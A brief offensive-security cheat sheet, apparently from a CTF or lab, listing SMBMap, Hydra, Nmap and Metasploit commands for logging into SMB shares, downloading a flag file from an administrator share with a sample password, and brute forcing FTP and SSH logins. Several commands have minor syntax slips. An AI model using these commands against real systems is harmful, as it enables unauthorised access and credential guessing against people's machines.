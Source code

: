 **SMBMap**

```smbmap -u "(username)" -p "(password)" -H "(IP address)```

Downloading file using SMB Map

```smbmap -u administrator -p smbserver_771 -H 10.4.244.255 --download "c$\flag.txt```

**Brute forcing FTP using Hydra
**

```hydra -L (Username list) -P (Password list) (IP Address) ftp```

**SSH - Getting SSH host key using Nmap
**

```nmap (IPaddress) -p 22 --script-args ssh_hostkey=full```
Save the host key for later

**Brute Forcing SSH with Hydra
**

```hydra -L (username) -P (password list) (IP address) ssh```

**Brute Forcing SSH login with Metasploit
**

```Use ssh/ssh_login```
